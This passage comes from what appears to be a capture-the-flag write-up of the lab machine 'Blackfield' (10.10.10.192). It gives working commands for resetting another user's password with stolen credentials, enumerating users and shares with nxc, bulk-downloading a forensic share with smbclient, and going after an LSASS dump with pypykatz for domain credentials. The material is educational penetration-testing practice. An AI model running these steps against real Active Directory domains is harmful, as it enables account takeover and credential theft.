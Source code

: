 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903175529.png)

```
net rpc password "audit2020" "newP@ssword2022" -U "BLACKFIELD.local"/"support"%"#00^BlackKnight" -S "10.10.10.192"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904095432.png)

 And now we can try audit2020 user

```
nxc smb 10.10.10.192 -u "audit2020" -p "newP@ssword2022" --users
```

Ok one more thing I notice that there is over 300 users in domain, again let's make a list.
Quick change password via 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903180322.png)

I search for valid users, so again cut users and continue searching 

```
cat es.txt | awk '{print $5}' > usernames.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903180728.png)

also I found that audit2020 have access to forensic share

```
nxc smb 10.10.10.192 -u "audit2020" -p "newP@ssword2022" --shares

nxc smb 10.10.10.192 -u "audit2020" -p "newP@ssword2022" --share forensic --dir
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903180940.png)

now connect via smbclient to download this files

```
smbclient \\\\10.10.10.192\\forensic -U audit2020

recurse ON
prompt OFF
mget *
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903181135.png)

ok, that wasn't good idea. XD Learn from mistakes, thats a lot of freaking data. But fast enumeration, from newest file. And I found lsass.zip. lsass is where domain credentials are

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903182133.png)

download it, unzip and dump via pypykatz
